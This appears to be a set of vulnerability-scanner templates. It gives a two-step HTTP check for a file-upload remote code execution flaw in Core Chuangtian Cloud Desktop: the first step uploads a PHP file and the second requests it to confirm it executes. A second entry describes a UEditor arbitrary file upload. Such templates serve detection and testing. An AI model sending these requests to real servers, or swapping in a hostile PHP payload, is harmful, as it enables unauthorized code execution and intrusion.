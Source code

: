 - Core Chuangtian Cloud Desktop System is susceptible to remote code execution vulnerabilities.
- severity - critical
- tags - rce,fileupload,intrusive,cloud,chuangtian

## Requests

### Step - 1

```
POST /Upload/upload_file.php?l=test HTTP/1.1
Host: {{Hostname}}
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"
Content-Type: image/avif

<?php echo md5("core-chuangtian-cloud"); ?>
------WebKitFormBoundaryfcKRltGv--

```

### Step - 2

```
GET /Upload/test/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "f0a712e2bcf99c5b0c370b3a4286bb35")
  2. status_code_2 == 200
- condition - and

---

# UEditor - Arbitrary File Upload

## Description

- UEditor contains an arbitrary file upload vulnerability. An attacker can upload arbitrary files to the server, which in turn can be used to make the application execute file content as code, As a result, an attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - high
- tags - ueditor,fileupload
